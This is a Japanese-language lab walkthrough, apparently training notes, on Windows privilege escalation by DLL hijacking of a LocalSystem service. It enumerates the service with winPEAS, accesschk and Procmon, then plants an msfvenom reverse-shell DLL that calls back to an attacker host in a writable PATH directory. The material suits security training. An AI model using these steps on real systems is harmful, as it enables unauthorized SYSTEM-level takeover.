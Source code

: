 多くの場合、サービスはDLL（ダイナミックリンクライブラリ）と呼ばれるライブラリから機能を読み込もうとします。DLLが提供する機能は、それをロードしたサービスと同じ権限で実行されます。 DLLが絶対パスでロードされた場合、そのDLLがユーザーによって書き込み可能であれば、権限をエスカレートできる可能性があります。   
# Privilege Escalation
1. winPEASを使用して、非Windowsサービスを列挙する。
```
> .\winPEASany.exe quiet servicesinfo
```
2. C:\Temp ディレクトリは書き込み可能で、PATH に入っていることに注意してください。まず、ユーザーがどのサービスに停止・開始アクセスできるかを列挙することから始めます。
```
> .\accesschk.exe /accepteula -uvqc user dllsvc
.\accesschk.exe /accepteula -uvqc user dllsvc
R  dllsvc
	SERVICE_QUERY_STATUS
	SERVICE_QUERY_CONFIG
	SERVICE_INTERROGATE
	SERVICE_ENUMERATE_DEPENDENTS
	SERVICE_START
	SERVICE_STOP
	READ_CONTROL
```
3. dllsvc" サービスは、DLL ハイジャックに対する脆弱性があります。winPEASの出力によると、このサービスはdllhijackservice.exeの実行ファイルを実行します。これを手動で確認することができます。
```
> sc qc dllsvc
sc qc dllsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: dllsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DLL Hijack Service\dllhijackservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DLL Hijack Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
4. Procmon64.exeを管理者権限で実行します。Ctrl+Lキーを押して、フィルタメニューを開きます。
5. dllhijackservice.exeに一致するプロセス名で新しいフィルタを追加します。
6. 

![procmon64.JPG](../../_resources/procmon64.JPG)


7. メイン画面で、レジストリのアクティビティとネットワークのアクティビティを選択解除します。
8. サービスを開始します。
```
> net start dllsvc
```
9. Procmonに戻ると、hijackme.dllファイルに関連する「NAME NOT FOUND」エラーが多数表示されることに注意してください。

![procmon64_2.JPG](../../_resources/procmon64_2.JPG)

10. ある時点で、Windows は C:\Temp ディレクトリにあるファイルを探そうとしますが、このディレクトリは先に見つけたように、このユーザーが書き込み可能です。
11. Kali上で、hijackme.dllという名前のリバースシェルDLLを生成します。
```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f dll -o hijackme.dll
```
12. DLLをWindows VMにコピーし、C: \Tempディレクトリにコピーします。   
```
> copy \\192.168.100.153\tools\hijackme.dll C:\Temp
```
13. Kali上でリスナーを開始し、サービスを停止/開始すると、エクスプロイトがトリガーされます。
```
> net stop dllsvc
> net start dllsvc
```